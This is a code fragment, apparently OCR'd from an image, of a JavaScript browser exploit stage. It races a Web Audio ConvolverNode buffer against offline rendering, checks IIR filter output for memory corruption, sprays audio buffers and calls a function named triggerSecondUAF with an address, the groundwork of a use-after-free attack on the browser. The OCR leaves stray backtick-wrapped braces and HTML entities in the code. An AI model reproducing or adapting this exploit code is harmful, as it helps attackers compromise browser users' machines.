```

    bufferSource.connect(convolver);
    convolver.connect(audioCtx.destination);

    bufferSource.start();

    let finished = false;

         audioCtx.startRendering().then(function(buffer) `{`
             buffer = null;

            if (finished) `{`
                audioCtx = null;

                setTimeout(doneCb, 200);
                return;
            `}` else `{`
                finished = true;

                setTimeout(function() `{`
                     triggerSecondUAF(addr, doneCb);
                `}`, 1);
            `}`
    `}`);

    while (!finished) `{`
            counter++;

            convolver.buffer = null;

            await later(1); // 等待1毫秒

            if (finished)
                 break;

            for (let i = 0; i &lt; iirFilters.length; i++) `{`
                floatArray.fill(0);
                 iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);

                 if (floatArray[0] != 3.1415927410125732) `{`
                         finished = true;

                              audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));
                         audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));

                        bufferSource.disconnect();
                        convolver.disconnect();

                        return;
                `}`
            `}`

            convolver.buffer = smallAudioBuffer;

            await later(1); // 等待1毫秒
    `}`
`}`
```
